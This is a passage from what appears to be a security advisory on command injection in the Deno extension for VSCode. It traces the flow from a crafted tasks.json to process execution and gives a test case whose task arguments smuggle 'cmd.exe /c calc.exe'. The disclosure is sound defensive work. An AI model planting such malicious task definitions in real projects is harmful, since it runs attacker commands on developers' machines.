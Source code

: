    Malicious Task Definition (tasks.json/deno.json) --> DenoTaskProvider (parses tasks) --> buildDenoTask() --> ProcessExecution (executes command and args) --> Command Injection
    ```
- **Security Test Case:**
    1. Create a directory `malicious-task-repo`.
    2. Inside, create `.vscode/tasks.json` with malicious task definition (Windows example):
        ```json
        {
          "version": "2.0.0",
          "tasks": [
            {
              "type": "deno",
              "command": "run",
              "args": [
                "-A",
                "-c",
                "C:\\Windows\\System32\\cmd.exe /c calc.exe"
              ],
              "label": "Malicious Task"
            }
          ]
        }
        ```
    3. Open `malicious-task-repo` in VSCode.
    4. Open Task sidebar, find "Malicious Task", and run it.
    5. Observe calculator execution, indicating command injection via task definition.
